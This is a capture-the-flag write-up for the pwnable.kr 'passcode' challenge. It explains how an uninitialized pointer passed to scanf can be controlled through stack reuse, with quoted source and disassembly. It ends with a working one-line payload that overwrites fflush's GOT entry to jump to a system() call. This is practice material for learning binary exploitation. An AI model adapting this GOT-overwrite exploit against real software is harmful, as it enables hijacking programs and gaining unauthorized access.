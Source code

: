 # pwnable.kr: passcode

Notes:

- Binary has no PIE, partial RELRO.

`passcode.c` does `scanf` on the int values incorrectly:

```
printf("enter passcode1 : ");
scanf("%d", passcode1);
...
printf("enter passcode2 : ");
scanf("%d", passcode2);
```

x86:

```
0x0804857c <+24>:	mov    edx,DWORD PTR [ebp-0x10]
0x0804857f <+27>:	mov    DWORD PTR [esp+0x4],edx
0x08048583 <+31>:	mov    DWORD PTR [esp],eax
0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>

...

0x080485aa <+70>:	mov    edx,DWORD PTR [ebp-0xc]
0x080485ad <+73>:	mov    DWORD PTR [esp+0x4],edx
0x080485b1 <+77>:	mov    DWORD PTR [esp],eax
0x080485b4 <+80>:	call   0x80484a0 <__isoc99_scanf@plt>
```

So basically, the first `scanf` writes to the address stored in `[ebp-16]`. And the second one writes to the address stored in `[ebp-12]`. We have control over these inside `welcome`.

Inside welcome, we can write 100 bytes starting at `[ebp-112]`.

Stack movement:

```
main:
  0x08048665 <+0>:	push   ebp
  0x08048666 <+1>:	mov    ebp,esp
  0x08048668 <+3>:	and    esp,0xfffffff0
  0x0804866b <+6>:	sub    esp,0x10
  ...
  0x0804867a <+21>:	call   0x8048609 <welcome>
  0x0804867f <+26>:	call   0x8048564 <login>
  ...

welcome:
  0x08048609 <+0>:	push   ebp
  0x0804860a <+1>:	mov    ebp,esp
  0x0804860c <+3>:	sub    esp,0x88
  ...
  0x0804862a <+33>:	mov    eax,0x80487dd
  0x0804862f <+38>:	lea    edx,[ebp-0x70]
  0x08048632 <+41>:	mov    DWORD PTR [esp+0x4],edx
  0x08048636 <+45>:	mov    DWORD PTR [esp],eax
  0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
  ...

login:
  0x08048564 <+0>:	push   ebp
  0x08048565 <+1>:	mov    ebp,esp
  0x08048567 <+3>:	sub    esp,0x28
  ...
  0x08048577 <+19>:	mov    eax,0x8048783
  0x0804857c <+24>:	mov    edx,DWORD PTR [ebp-0x10]
  0x0804857f <+27>:	mov    DWORD PTR [esp+0x4],edx
  0x08048583 <+31>:	mov    DWORD PTR [esp],eax
  0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
  ...
  0x080485a5 <+65>:	mov    eax,0x8048783
  0x080485aa <+70>:	mov    edx,DWORD PTR [ebp-0xc]
  0x080485ad <+73>:	mov    DWORD PTR [esp+0x4],edx
  0x080485b1 <+77>:	mov    DWORD PTR [esp],eax
  0x080485b4 <+80>:	call   0x80484a0 <__isoc99_scanf@plt>
  ...
```


Exploit

- Write `'A'*96 + p32(FFLUSH_GOT)`
- Then write `0x080485d7` as an int (the address in binary that calls `system(...)`)

- Final payload: `./passcode <<< $(python3 -c "import sys; import struct; sys.stdout.buffer.write(b'A'*96 + struct.pack('<I', 0x804a004) + str(0x080485d7).encode())")`

